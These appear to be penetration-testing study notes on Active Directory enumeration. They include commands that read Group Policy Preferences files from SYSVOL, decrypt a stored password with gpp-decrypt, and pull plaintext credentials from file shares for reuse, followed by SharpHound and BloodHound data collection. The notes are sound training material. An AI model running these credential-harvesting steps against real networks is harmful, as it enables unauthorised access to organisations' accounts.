 ### Enumerating Domain Shares

- PowerView's **Find-DomainShare**
	- -*CheckShareAccess*
		- flag to display shares only available to us
	- `Find-DomainShare`

- In this instance, we'll first focus on **SYSVOL**
	- SYSVOL folder:
		- **`%SystemRoot%\SYSVOL\sysvol\domain-name`**
		- **Find-DomainShare | Format-Table -AutoSize**
	- `ls \\dc1.corp.com\sysvol\corp.com\`
	- `ls \\dc1.corp.com\sysvol\corp.com\Policies\`
	- `cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml`
		-output -> password 
- Historically, system administrators often changed local workstation passwords through *Group Policy Preferences* (GwePP)
	- the private key for the encryption has been posted on MSDN.
- **gpp-decrypt**
	- decrypt these GPP encrypted passwords
	- `gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"`
	- output -> `P@$$w0rd`

- Check out other shares
	- `ls \\FILES04\docshare`
	- `ls \\FILES04\docshare\docs\do-not-share`
	- `cat \\FILES04\docshare\docs\do-not-share\start-email.txt`
	- result -> jeff:HenchmanPutridBonbon11!
		- can use for wordlist

# Active Directory - Automated Enumeration

- *PingCastle*
	- generate gorgeous reports 

### Collecting Data with SharpHound

- *SharpHound*
	- data collection tool
	- We can compile it ourselves, use an already compiled executable, or use it as a PowerShell script
	- Ouput as a zipped json 

- Example:
	- Import module
		- `PS C:\Tools> Import-Module .\Sharphound.ps1`
	- We must first run **Invoke-BloodHound**.
		- `Get-Help Invoke-BloodHound`
		-`Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Tools\ -OutputPrefix "audit"`
			- ** -CollectionMethod** = describes the various collection methods.
			- **All** = all data
	- collected data location:
		`ls C:\Users\stephanie\Desktop\`
	-  Sharphound created the **bin** cache file to speed up data collection. This is not needed for our analysis and we can safely delete it.
- [Note]:
	- One thing to note is that SharpHound also supports _looping_, which means that the collector will run cyclical queries of our choosing over a period of time.
### Analysing Data using BloodHound
	- In order to use BloodHound, we need to start the *Neo4j* service, which is installed by default. Note that when Bloodhound is installed with APT,2 the Neo4j service is automatically installed as well.
		- Neo4j is essentially an open source graph database (NoSQL) that creates nodes, edges, and properties instead of simple rows and columns.
